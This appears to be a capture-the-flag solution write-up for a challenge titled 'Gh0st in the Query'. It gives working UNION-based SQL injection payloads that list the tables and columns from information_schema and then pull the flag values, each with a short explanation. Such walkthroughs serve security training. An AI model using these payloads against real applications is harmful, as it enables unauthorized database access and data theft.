

# Solution: Gh0st in the Query

## Challenge Overview
Extract the flag from the database using SQL injection. The provided queries exploit the vulnerability to enumerate tables, columns, and finally retrieve the flag.

## How to Solve This Challenge

### Step 1: Enumerate Tables

```sql
s' union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = database() -- -
```
**Explanation**: This query retrieves all table names in the current database by querying the `information_schema.TABLES` table. The `group_concat` function concatenates all table names into a single string for easy reading.



---

### Step 2: Enumerate Columns in the `flags` Table

```sql
s' union select 1,group_concat(COLUMN_NAME),3 FROM information_schema.COLUMNS where TABLE_NAME = "flags" -- -
```
**Explanation**: This query retrieves all column names in the `flags` table by querying the `information_schema.COLUMNS` table. The `group_concat` function concatenates the column names.


---

### Step 3: Retrieve the Flag
```sql
s' union select 1,group_concat(flag),3 FROM flags -- -
```
**Explanation**: This query retrieves the `flag` column values from the `flags` table. The `group_concat` function concatenates all flag values (if there are multiple).


---

### Step 4: Submit the Flag 

Copy the flag and submit it to complete the challenge!

---
